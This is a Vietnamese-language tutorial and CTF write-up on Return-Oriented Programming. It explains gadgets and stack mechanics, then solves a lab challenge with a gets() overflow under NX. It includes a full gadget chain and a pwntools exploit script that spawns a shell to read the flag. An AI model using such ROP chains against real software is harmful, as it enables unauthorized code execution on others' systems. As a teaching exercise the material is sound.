

# Return-Oriented Programming (ROP) Explanation

@boodamdang

___

### Tại sao có kỹ thuật tấn công ROP?

Sự xuất hiện của các cơ chế bảo vệ như Non-executable (NX) hay Data Execution Prevention (DEP) giúp chống thực thi code ở vùng nhớ không cho phép. Có nghĩa là khi chúng ta khai thác lỗ hổng Buffer Overflow (BOF) của một chương trình, nếu chương trình này có cơ chế bảo vệ NX hay DEP thì shellcode chúng ta chèn vào xem như vô dụng - bởi vì vùng nhớ lưu shellcode đã bị đánh dấu là không được thực thi.

ROP là một kỹ thuật tấn công tận dụng các đoạn code có sẵn của chương trình (đương nhiên là code của chương trình nằm trong vùng nhớ được phép thực thi) để thực thi những lệnh tương đương với việc thực thi shellcode.

### Để hiểu được ROP là như thế nào, trước tiên chúng ta cần hiểu một số cơ chế quan trọng sau:

#### Cấu trúc của stack trong kiến trúc Intel x86 (cần xem kỹ hình bên dưới để biết stack là như thế nào):



#### Instruction Pointer (IP):  Trỏ tới lệnh đang thực thi trên stack.

#### Stack Pointer (SP): Trỏ tới đỉnh stack (đỉnh ở đây được hiểu là đỉnh của các lệnh - có nghĩa là SP trỏ tới lệnh gần nhất cần phải thực thi).

#### push \<value\>: giảm SP và đẩy \<value\> vào vị trí SP trỏ tới.
  
#### pop \<register\>: lấy giá trị mà SP trỏ tới gán vào \<register\> và tăng SP.

#### call \<function\>:

* push \<return address\> (address của lệnh ngay sau lệnh call \<function\>, tức là lệnh sẽ được thực thi sau khi kết thúc \<function\>) vào stack.

* Gán IP bằng địa chỉ của \<function\>.

#### ret (lệnh ret là mấu chốt của ROP, cần hiểu cơ chế của lệnh pop đã nói ở trên để hiểu rõ lệnh ret):

* pop \<register\>.

* Gán IP bằng giá trị \<register\>.

### Nếu tự tin rằng bản thân đã thấm nhuần được những tư tưởng bên trên, ta đi vào tìm hiểu ROP là như thế nào:

#### Gadget: Chuỗi các lệnh của chương trình kết thúc bằng lệnh ret. Ví dụ như:

* xor eax, eax ; ret

* inc eax ; ret

* pop eax ; pop edx ; pop ebx ; ret

* mov dword ptr [edx], eax ; ret

* …

#### Ý tưởng của ROP là thực thi liên tiếp chuỗi các gadget (mỗi gadget là chuỗi các lệnh assembly) thay vì thực thi shellcode – bởi vì bản chất shellcode cũng chỉ là chuỗi các lệnh assembly.

#### Làm sao để thực thi chuỗi các gadget?

* Đơn giản là ghi đè return address bằng address của lệnh đầu tiên của gadget 1 (gọi tắt là address của gadget 1), nối tiếp là address của gadget2, nối tiếp là address của gadget 3, ... 

* Payload: \<padding\> \<address của gadget 1\> \<address của gadget 2\> ... \<address của gadget n\>.

#### Tại sao các gadget có thể được thực thi liên tiếp nhau?

* Ngay trước khi lệnh ret (của hàm chúng ta khai thác BOF) được thực thi, stack có trạng thái như sau:

  
  
* Khi lệnh ret (của hàm chúng ta khai thác BOF) được thực thi:

  * IP trỏ tới vị trí mà SP trỏ tới - chính là \<address của gadget 1\>. Hay có thể nói là lúc này chương trình sẽ nhảy tới thực thi chuỗi các lệnh của gadget 1.
  
  * SP tăng - trỏ tới \<address của gadget 2\>.

* Khi lệnh ret của gadget 1 được thực thi:

  * IP trỏ tới vị trí mà SP trỏ tới - chính là \<address của gadget 2\>. Hay có thể nói là lúc này chương trình sẽ nhảy tới thực thi chuỗi các lệnh của gadget 2.
  
  * SP tăng - trỏ tới \<address của gadget 3\>.

* ...

* Khi lệnh ret của gadget n - 1 được thực thi:

  * IP trỏ tới vị trí mà SP trỏ tới - chính là \<address của gadget n\>. Hay có thể nói là lúc này chương trình sẽ nhảy tới thực thi chuỗi các lệnh của gadget n.
  
  * SP tăng - trỏ tới đâu ta không cần quan tâm nữa - bởi vì lúc này toàn bộ các lệnh của các gadget đã được thực thi - tương đương với việc chúng ta đã thực thi shellcode thành công.

### Nếu tự tin rằng bản thân đã thấm nhuần được toàn bộ nội dung bên trên, ta thử giải một challenge cho vui:

#### [chall](./chall) (source: [chall.c](./chall.c))

```
kali@kali:~/Desktop/ROP$ ls
chall  chall.c  flag
kali@kali:~/Desktop/ROP$ cat flag
cat: flag: Permission denied
```

Ta xem thử source code như nào:

```
kali@kali:~/Desktop/ROP$ cat chall.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("Can you ROP your way out of this one?\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

Hàm main gọi hàm vuln, hàm vuln gọi hàm gets. Chúng ta nghĩ ngay tới việc khai thác BOF - truyền vào shellcode, ghi đè return address của hàm vuln thành address của vị trí bắt đầu shellcode, chạy được shellcode thì cat flag.

Nhưng khoan, chúng ta phải check mitigation của file:

```
kali@kali:~/Desktop/ROP$ checksec --file=chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   2150 Symbols     No     0               0       chall
```

NX enabled - vậy việc thực thi shellcode là không thể. Chúng ta phải áp dụng ROP.

Nhưng lại khoan, Canary found - vậy nếu chúng ta ghi đè return address thì sẽ bị chương trình phát hiện? Chưa chắc, chúng ta thử xem hàm vuln như nào đã:

```
gdb-peda$ pdi vuln
Dump of assembler code for function vuln:
   0x080488a5 <+0>:     push   ebp
   0x080488a6 <+1>:     mov    ebp,esp
   0x080488a8 <+3>:     push   ebx
   0x080488a9 <+4>:     sub    esp,0x14
   0x080488ac <+7>:     call   0x8048780 <__x86.get_pc_thunk.bx>
   0x080488b1 <+12>:    add    ebx,0x9174f
   0x080488b7 <+18>:    sub    esp,0xc
   0x080488ba <+21>:    lea    eax,[ebx-0x2dc38]
   0x080488c0 <+27>:    push   eax
   0x080488c1 <+28>:    call   0x80502b0 <puts>
   0x080488c6 <+33>:    add    esp,0x10
   0x080488c9 <+36>:    sub    esp,0xc
   0x080488cc <+39>:    lea    eax,[ebp-0x18]
   0x080488cf <+42>:    push   eax
   0x080488d0 <+43>:    call   0x8050120 <gets>
   0x080488d5 <+48>:    add    esp,0x10
   0x080488d8 <+51>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080488db <+54>:    leave  
   0x080488dc <+55>:    ret    
End of assembler dump.
```

Thật may mắn, không có dấu răng nào của Canary trong hàm vuln cả - chúng ta có thể ghi đè return address một cách vô tư (trường hợp có check canary thì vẫn có thể leak được canary nếu canary đó chưa đủ xịn).

Ta dễ dàng nhận thấy phần padding cần 0x14 = 20 byte. Tiếp sau đó lần lượt là address của các gadget, làm sao để có nhỉ? Dump file sang assembly, ăn cơm thật no rồi ngồi tìm. Đấy là câu chuyện thuở sơ khai, hiện tại chúng ta có những công cụ xịn xò tự động tìm địa chỉ các gadget giúp chúng ta - ở đây mình dùng [ROPgadget](https://github.com/JonathanSalwan/ROPgadget):

```
kali@kali:~/Desktop/ROP$ ROPgadget --binary=chall --ropchain --badbytes="0a"
...
        p = ''
        p += pack('<I', 0x0806ee6b) # pop edx ; ret
        p += pack('<I', 0x080da060) # @ .data
        p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
        p += '/bin'
        p += pack('<I', 0x080da060) # padding without overwrite edx
        p += pack('<I', 0x41414141) # padding
        p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
        p += pack('<I', 0x0806ee6b) # pop edx ; ret
        p += pack('<I', 0x080da064) # @ .data + 4
        p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
        p += '//sh'
        p += pack('<I', 0x080da064) # padding without overwrite edx
        p += pack('<I', 0x41414141) # padding
        p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
        p += pack('<I', 0x0806ee6b) # pop edx ; ret
        p += pack('<I', 0x080da068) # @ .data + 8
        p += pack('<I', 0x08056420) # xor eax, eax ; ret
        p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
        p += pack('<I', 0x080481c9) # pop ebx ; ret
        p += pack('<I', 0x080da060) # @ .data
        p += pack('<I', 0x0806ee92) # pop ecx ; pop ebx ; ret
        p += pack('<I', 0x080da068) # @ .data + 8
        p += pack('<I', 0x080da060) # padding without overwrite ebx
        p += pack('<I', 0x0806ee6b) # pop edx ; ret
        p += pack('<I', 0x080da068) # @ .data + 8
        p += pack('<I', 0x08056420) # xor eax, eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x0807c2fa) # inc eax ; ret
        p += pack('<I', 0x08049563) # int 0x80
```

Lưu ý tham số --badbytes="0a" dùng để loại bỏ những gadget nào mà address có chứa byte 0a, bởi vì hàm gets ngừng đọc khi gặp byte 0a. Tuỳ trường hợp mà ta cần truyền các badbytes khác nhau (các byte cách nhau bởi dấu |).

Đã có đầy đủ payload, ta có code exploit như sau:

```
from pwn import *
from struct import pack

proc = process('./chall')

p = 'ChucMoiNguoiThiTot<3'
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
p += '/bin'
p += pack('<I', 0x080da060) # padding without overwrite edx
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da064) # @ .data + 4
p += pack('<I', 0x08056334) # pop eax ; pop edx ; pop ebx ; ret
p += '//sh'
p += pack('<I', 0x080da064) # padding without overwrite edx
p += pack('<I', 0x41414141) # padding
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056420) # xor eax, eax ; ret
p += pack('<I', 0x08056e65) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080da060) # @ .data
p += pack('<I', 0x0806ee92) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x080da060) # padding without overwrite ebx
p += pack('<I', 0x0806ee6b) # pop edx ; ret
p += pack('<I', 0x080da068) # @ .data + 8
p += pack('<I', 0x08056420) # xor eax, eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x0807c2fa) # inc eax ; ret
p += pack('<I', 0x08049563) # int 0x80

proc.sendline(p)
proc.interactive()
```

Và kết quả là thành công:

```
kali@kali:~/Desktop/ROP$ python solve.py
[+] Starting local process './chall': pid 11698
[*] Switching to interactive mode
Can you ROP your way out of this one?
$ ls
chall  chall.c    flag  solve.py
$ cat flag
flag{th4y_Duy_d3p_tr41_th13n_h4_v0_d1ch}
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './chall' stopped with exit code 0 (pid 11698)
[*] Got EOF while sending in interactive
```

Mọi người thi tốt nhóoo <3
